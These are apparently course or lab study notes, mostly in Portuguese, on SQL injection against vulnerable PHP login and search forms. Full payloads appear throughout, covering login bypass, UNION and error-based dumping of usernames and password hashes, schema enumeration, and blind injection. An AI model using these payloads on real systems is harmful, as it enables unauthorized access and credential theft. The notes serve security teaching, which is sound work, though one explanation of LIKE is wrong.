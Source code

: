 # SQL INJECTION

## Basic SQL Injections

### SELECT * FROM users where username='".$user."' AND password = '.md5($password)."'

As we can see, the password is hashed using md5, so that's probably not the best path for us to attack from. However, the User Field is not protected at all
Se no login, na parte do username, escrevermos ```voldemort' -- //```, Isto causa que o resto da query seja ignorada
> -- // é como se faz comentarios em SQL

Assim o server recebe:

```sql
SELECT * FROM users where username='voldemort' -- //' AND password =''
```

a partir do 'voldemort', é tudo comentario. Logo, desde que voldemort seja um username existente, a query não irá ter erros e vai retornar *.

### SELECT * FROM users where (username='".$user."') AND (password = '.md5($password)."')

Aqui, temos os parenteses como extra segurança. Se fizessemos como antes ficava assim:

```sql
SELECT * FROM users where (username='voldemort' -- //') AND (password = '.md5($password)."')
```

Acaba-se com uma query mal formada, uma vez que nunca foram fechados os parenteses.

Entao, se fizermos login com o username ```voldemort') -- //```, cria a seguinte query:

```sql
SELECT * FROM users where username=('Voldemort') -- // ') AND password = '.md5($password). 
```

Assim já funciona a injection.

### SELECT * FROM products WHERE product_name LIKE '".$query."%'

> In SQL, a command ending in ```LIKE ba%```, will return items whose names end with the substring "ba".

Neste exercício, estamos a usar uma barra de pesquisa em que nos aparecem os items que começam com a substring *".$query."*
Como não há qualquer tipo de validação, podemos fazer traquinagem

Por exemplo, se escrevermos na barra ```b%' order by 5 -- //```, o servidor vai receber a query:

```sql
SELECT * FROM products WHERE product_name LIKE 'b%' order by 5 -- //%'
```

Isto ordena a tabela resultante pela quinta coluna de dados.

Dá pa fazer mais cenas na search bar.
> The UNION operator is used to combine the result-set of two or more SELECT statements

Portanto se fizermos:

```sql
'union select null,id,username,password,fname from users -- //  
```

Cria a query:

```sql
SELECT * FROM products WHERE product_name LIKE '% 'union select null,id,username,password,fname from users -- %' 
```

Assim, alem de aparecerem os produtos, aparece tambem uma tabela com id, username, pass ...

Se não soubermos os nomes das variáveis e tabelas, o que é muito provavel, fazemos ```'union select null,null,null,null,table_name from information_schema.tables -- //```

Isto retorna tudo o que existe na base de dados.

## SQL Second Order Attacks

This designation (Second Order Attacks) is given to attacks that result in the storage of an unsanitized piece of SQL, that is later executed by an insecure function
Por exemplo, regista-se uma conta com username e pass, mas no username injeta-se SQL. Não acontece nada de momento, mas mais tarde quando se for trocar de pass, o SQL injetado vai ser executado. ***É por isso que se chama second order.***

Utilizando ```' or 1 in (select password from users) -- //```, dá nos um erro, mas a mensagem de erro mostra nos também o que queremos:
> Warning<: 1292: Truncated incorrect DOUBLE value : (...)

(Where ==(...)== are all the passwords in the **users** table password column)

## Blind SQL Injection

A Blind SQL injection happens when an attacker is able to determine the content of the database by the result of an operation. That is, the attacker will not get data from the database, but it will get a code (Error code, true false, etc...) that provides information about the data in the database.

Neste exercício, temos uma página cujo URL tem o username do utilizador. Alterando esse valor, podemos aceder a paginas de outros utilizadores. Também podemos fazer outras coisas injetando SQL.

A query da pagina funciona da seguinte forma:

```sql
SELECT * FROM users WHERE username = '".$_GET["user"]."'
```

Utilizaremos a template ```voldemort AND TEST``` em que TEST é qualquer pedaço de código SQL.
Podemos, por exemplo, fazer: ```voldemort AND SUBSTRING((select count(id) from users), 1) = N' -- //```

Isto cria a seguinte query:

```sql
SELECT * FROM users WHERE username = '.$_GET["voldemort AND SUBSTRING((select count(id) from users), 1) = N"].'
```

> By gradually incrementing N, we can, by **trial and error** get how many users exist in the **users** table (which corresponds to how many users exist overall). We'll know we've hit jackpot (i.e N equals the number of users that exist) when information is shown on the page (meaning that our < TEST > was validated as **TRUE** !) This basically gives us a way to find out anything we want from the database, using an exhaustive, and repetitive form, by basically continously asking the query: "Is < TEST > correct? How about this"

## Error based data extraction

Voltando à pagina de login, podemos extrair informação de lá a partir de mensagens de erros.

Lembrando que esta form funciona da seguinte forma:

```sql
SELECT * FROM users where username='".$user."' AND password = '.md5($password).
```

Se escrevermos isto no login: ```' or 1 in (select @@version) -- //```, o server recebe:

```sql
SELECT * FROM users where username='' or 1 in (select @@version) -- //' AND password = '.md5($password)."'
```

> Eis como funciona a keyword *in* em SQL: ```SELECT * FROM Customers WHERE Country IN ('Germany', 'France', 'UK')``` Resulta da query todos os costumers de alemanha, frança e UK. Logo o IN é tipo um OR multiplo

Aparece na página o seguinte erro:
> Warning: 1292: Truncated incorrect DOUBLE value: '8.0.17'

Já sabemos a versao do server.

### Outras funcionalidades

#### Return the hashed password of the admin user (or any user)

```sql
' or 1 in (select password from users where username = 'admin') -- //
```

#### Get info from the **users** table

```sql
' or 1 in (select username from users where id=1) -- //
```

#### List the tables of the information_schema ﬁrst database. You can obtain the list of table identiﬁers (TABLE_ID) and then use this information to obtain further data (e.g. WHERE TABLE_ID=1024)

```sql
' or 1=CAST((select group_concat(name) from INFORMATION_SCHEMA.INNODB_TABLES) AS SIGNED) -- //
```

This last example allows us to dump all rows from any column in any table. It basically contacts multiple values so that the result can be included in the error message

#### List the usernames of all users stored in the users table

```sql
' or 1=CAST((select group_concat(username) from users) AS SIGNED) -- //
```

#### List the passwords of all users stored in the users table

```sql
' or 1=CAST((select group_concat(password) from users) AS SIGNED) -- //
```
